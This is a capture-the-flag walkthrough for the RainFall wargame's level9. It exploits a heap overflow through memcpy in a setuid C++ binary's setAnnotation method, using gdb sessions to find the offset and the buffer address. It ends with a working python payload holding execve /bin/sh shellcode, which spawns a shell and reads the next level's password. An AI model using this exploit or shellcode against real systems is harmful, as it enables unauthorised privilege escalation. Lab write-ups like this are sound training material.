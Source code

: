 
# level9 walkthrough

There is a setuid binary, after analyzing it with gdb we can find 5 interesting functions:

    N::N(int)
    N::setAnnotation(char*)
    N::operator+(N&)
    N::operator-(N&)
    main

This binary is written in cpp and there is no calls to /bin/sh, we can assume we'll have to use shellcode this time.
We can use the memcpy() on argv[1] in setAnnotation() to execute our shellcode.
First of all we need to find the offset:

    (gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
    Starting program: /home/user/level9/level9 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

    Program received signal SIGSEGV, Segmentation fault.
    0x08048682 in main ()
    (gdb) info register eax
    eax            0x41366441       1094083649

We can use pattern generator to find eax offset (108 bytes).
Now we need to construct shellcode which we can get from level2 with few modifications.
In order to do that we need to find the start address of our buffer and replace the value of esp+0x10 with obtained address.
But we also need to dereference twice like we want to access to the N class, our return address should point to the address of our buffer:

    (gdb) b *main+136
    Breakpoint 1 at 0x804867c
    (gdb) run 'aaaa'
    Starting program: /home/user/level9/level9 'aaaa'

    Breakpoint 1, 0x0804867c in main ()
    (gdb) x $eax
    0x804a00c:      0x41414141

The value of [esp+0x10] will be replaced with 0x804a00c.
Because we need to dereference again this address shoul point to the beginning of our shellcode: 0x804a00x + 4 = 0x804a010.

    payload : shell_addr + shellcode + padding + buffer_addr
            [4 bytes]   [28 bytes]  [76 bytes]  [4 bytes] = 108 + 4

Our final exploit will look like this:

    python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"'
    level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
    $ whoami
    bonus0
    $ cat /home/user/bonus0/.pass
    f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

